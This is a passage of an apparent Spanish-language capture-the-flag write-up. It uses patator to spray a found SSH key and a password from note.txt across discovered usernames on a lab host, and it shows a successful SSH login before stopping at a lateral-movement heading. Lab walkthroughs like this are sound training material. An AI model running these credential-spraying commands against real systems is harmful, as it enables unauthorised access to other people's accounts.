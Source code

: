 
No sabemos a que usuario pertenece el directorio **.ssh.** En este caso voy a usar el script **patator**. Primero creamos un fichero **users.txt** con los nombres de los usuarios que hemos descubierto y después ejecutamos el script:

```bash
patator ssh_login host=172.18.0.2 user=FILE0 keyfile=id 0=users.txt
23:37:20 patator    INFO - code  size    time | candidate                          |   num | mesg
23:37:20 patator    INFO - -----------------------------------------------------------------------------
23:37:21 patator    INFO - 1     22     0.072 | root-false                         |     1 | Authentication failed.
23:37:21 patator    INFO - 1     22     0.018 | sambauser                          |     2 | Authentication failed.
23:37:21 patator    INFO - 0     40     0.025 | passsamba                          |     3 | SSH-2.0-OpenSSH_9.6p1 Ubuntu-3ubuntu13.5
```

Como podemos ver con el user **passsamba** obtendríamos acceso al sistema.

# Intrusión

Nos conectamos al sistema usando la clave privada:

```bash
ssh -i id passsamba@172.18.0.2
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.8.11-amd64 x86_64)
passsamba@64a2dd61671c:~$
```

Leemos el fichero **note.txt**:

```bash
passsamba@64a2dd61671c:~$ cat note.txt 

What would "sambaarribasiempre" be used for?
```

Veamos para que sirve… usando **patator** de nuevo:

```bash
patator ssh_login host=172.18.0.2 user=FILE0 password=sambaarribasiempre 0=users.txt
23:40:33 patator    INFO - code  size    time | candidate                          |   num | mesg
23:40:33 patator    INFO - -----------------------------------------------------------------------------
23:40:33 patator    INFO - 0     40     0.086 | sambauser                          |     2 | SSH-2.0-OpenSSH_9.6p1 Ubuntu-3ubuntu13.5
23:40:36 patator    INFO - 1     22     2.671 | passsamba                          |     3 | Authentication failed.
23:40:36 patator    INFO - 1     22     2.920 | root-false                         |     1 | Authentication failed.
```

Son las credenciales de **sambauser**.

# Movimientos laterales
